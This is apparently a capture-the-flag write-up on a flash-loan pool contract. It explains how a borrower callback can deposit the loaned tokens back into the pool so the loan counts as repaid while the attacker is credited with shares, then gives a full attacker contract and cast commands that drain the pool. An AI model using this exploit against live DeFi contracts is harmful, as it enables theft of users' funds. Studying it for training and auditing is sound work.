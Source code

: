 # challenge name

# code / Description
```solidity
function deposit(uint256 amount) external {
    address _msgsender = msg.sender;

    _updateFees(_msgsender);
    IERC20Minimal(underlying).transferFrom(_msgsender, address(this), amount);

    _mint(_msgsender, amount);
}
```

```solidity
function flashLoan(IERC3156FlashBorrower receiver, address token, uint256 amount, bytes calldata data)
    external
    returns (bool)
{
    if (token != underlying) {
        revert NotSupported(token);
    }

    IERC20Minimal _token = IERC20Minimal(underlying);
    uint256 _balanceBefore = _token.balanceOf(address(this));

    if (amount > _balanceBefore) {
        revert InsufficientBalance();
    }

    uint256 _fee = _computeFee(amount);
    _token.transfer(address(receiver), amount);

    if (
        receiver.onFlashLoan(msg.sender, underlying, amount, _fee, data)
            != keccak256("ERC3156FlashBorrower.onFlashLoan")
    ) {
        revert CallbackFailed();
    }

    uint256 _balanceAfter = _token.balanceOf(address(this));
    if (_balanceAfter < _balanceBefore + _fee) {
        revert LoanNotRepaid();
    }

    // Accumulate fees and update feePerShare
    uint256 interest = _balanceAfter - _balanceBefore;
    feePerShare += interest.fixedDivFloor(totalSupply, BONE);

    emit FlashLoanSuccessful(address(receiver), msg.sender, token, amount, _fee);
    return true;
}
```



# Challenge Analysis

This challenge revolves around a smart contract that implements a flash loan feature, which allows borrowing assets with the obligation of returning them within the same transaction. The vulnerability arises from improper handling of the loan repayment mechanism. The contract permits the depositing of flash-loaned assets directly back into the pool without proper validation of the repayment source or completion status. This flaw, combined with a faulty deposit function, results in the minting of tokens to the sender and improperly assigns credit, which the sender can later withdraw, leading to the potential draining of ETH from the contract.


# Solution

1. Deploy Attacker Contract: First, deploy an attacker contract implementing IERC3156FlashBorrower. In the constructor of this contract, set the target flash loan pool, approve the flash loan amount, and prepare for receiving the loan by setting the maximum loan amount and ensuring the contract can handle the token involved.

```solidity
contract BadBorrower is IERC3156FlashBorrower {
    address target;
    uint maxloan;
    address underlying;

    constructor(address _target) {
        target = _target;
        underlying = ILoanPool(_target).underlying(); 
        maxloan = ILoanPool(_target).maxFlashLoan(underlying);

        try IToken(underlying).approve(_target, type(uint256).max) {} catch {
            revert("cant add LoanPool to attacker allowancea");
        }
    }

    function onFlashLoan(
        address initiator,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata data
    ) public returns (bytes32) {
        ILoanPool(msg.sender).deposit(amount);
        IToken(token).transferFrom(tx.origin, msg.sender, fee);
        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }

    function withdraw() public {
        try ILoanPool(target).withdraw(maxloan) {
        } catch {
            revert("cant withdraw!");   
        }
    }
}
```



2. Approve Attacker Contract: Next, approve the attacker contract to transfer the required token amount to the flash loan contract to cover the flash loan fee. This is necessary to meet the requirements of the flash loan mechanism, specifically for repayment.

```bash
cast send <UNDERLYING_TOKEN_ADDRESS> "approve(address,uint256)" <TARGET_CONTRACT_ADDRESS> 9999999999999999999999 --rpc-url <RPC_URL> --private-key <PRIVATE_KEY>
```


3. Initiate Flash Loan: Trigger a flash loan from the attacker contract. The onFlashLoan function within this contract is designed to misuse the deposit mechanism: it deposits the flash-loaned amount back into the loan pool, exploiting the flawed logic to mint new tokens or credit to the attacker contract.

```bash
cast send <TARGET_CONTRACT_ADDRESS> "flashLoan(IERC3156FlashBorrower,address,uint256,bytes)" <ATTACKER_CONTRACT_ADDRESS> <UNDERLYING_TOKEN_ADDRESS> 10000000000000000000 0x --rpc-url <RPC_URL> --private-key <PRIVATE_KEY>
```


4. Handle Loan and Fee in onFlashLoan: Within the onFlashLoan execution context the borrowed tokens are deposited back into the pool using the deposit function. This action satisfies the loan's return requirements while simultaneously credits the sender and mints additional tokens, effectively leveraging the return of the loaned tokens. Subsequently, the loan fee is paid from the external owner's account (EOA). This step ensures that the flash loan requirements are met.

```solidity
ILoanPool(msg.sender).deposit(amount);
IToken(token).transferFrom(tx.origin, msg.sender, fee);
```


5. Withdraw Assets: Finally, call the withdraw function on the attacker contract, which, in turn, calls the withdraw function on the flash loan contract. Since the attacker contract's balance has been artificially inflated through the earlier deposit, this step allows withdrawing more assets than should be possible, effectively draining ETH from the flash loan contract.

```bash
cast send <ATTACKER_CONTRACT_ADDRESS> "withdraw()" --rpc-url <RPC_URL> --private-key <PRIVATE_KEY>
```

**AUTHOR**:
> Mohammad2024 / Pr1m3d Team